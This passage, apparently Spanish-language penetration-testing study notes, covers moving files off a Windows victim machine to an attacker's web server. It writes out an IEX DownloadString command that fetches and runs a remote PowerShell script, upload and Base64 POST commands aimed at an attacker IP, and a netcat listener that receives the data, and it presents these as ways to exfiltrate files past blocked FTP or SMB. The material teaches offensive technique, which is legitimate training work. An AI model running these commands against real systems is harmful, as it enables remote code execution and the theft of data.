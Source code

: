 De esta forma, comparando el HASH vemos que el contenido se ha mantenido.

## 2. PowerShell Web Uploads

Cuando queremos **subir archivos desde la víctima a un servidor web** usando PowerShell:
##### 1. Preparar el servidor web con soporte para uploads (desde el atacante)
- Usamos **uploadserver**, un módulo Python basado en `http.server` que permite subir archivos.
```
>sudo apt install pipx
>pipx ensurepath
>pipx install uploadserver
>python3 -m uploadserver
```
- El servidor queda disponible en `http://<IP>:8000/`.
- La página de upload se encuentra en `/upload`.
   
#### 2. Subir archivos desde la víctima con PowerShell
- Descargamos el script `PSUpload.ps1` (ubicado en: https://github.com/juliourena/plaintext/blob/master/Powershell/PSUpload.ps1) en la víctima:
Ejecutamos desde la PowerShell:
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
```

- Ejecutamos la función de upload:
```
`Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`
```

- Resultado esperado:
```
[+] File Uploaded:  C:\Windows\System32\drivers\etc\hosts [+] 
FileHash:  5E7241D66FD77E9E8EA866B6278B2373`
```

- Funciona incluso cuando FTP o SMB están bloqueados, siempre que haya HTTP/HTTPS saliente.
- La integridad del archivo se verifica con su **hash MD5**.
- Útil para exfiltrar archivos sin usar métodos tradicionales de transferencia.

## 3. Carga de archivos usando Base64 y PowerShell

##### 1. Codificar el archivo en Base64 en la víctima
```
$b64 = [System.Convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
```

- `Get-Content -Encoding Byte` → lee el archivo como bytes.
- `ToBase64String(...)` → convierte esos bytes en una cadena Base64.
- Resultado: `$b64` contiene todo el archivo codificado en Base64.
##### 2. Enviar el archivo al atacante vía HTTP POST
```
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64`
```
- `Invoke-WebRequest` envía la cadena Base64 al servidor atacante como **cuerpo de la solicitud POST**.
- Puede sustituirse por `Invoke-RestMethod`.
##### 3. Capturar la cadena Base64 en el atacante
En la máquina atacante, ejecuto:
```
nc -lvnp 8000
``` 
##### 5. Decodificar Base64 y reconstruir el archivo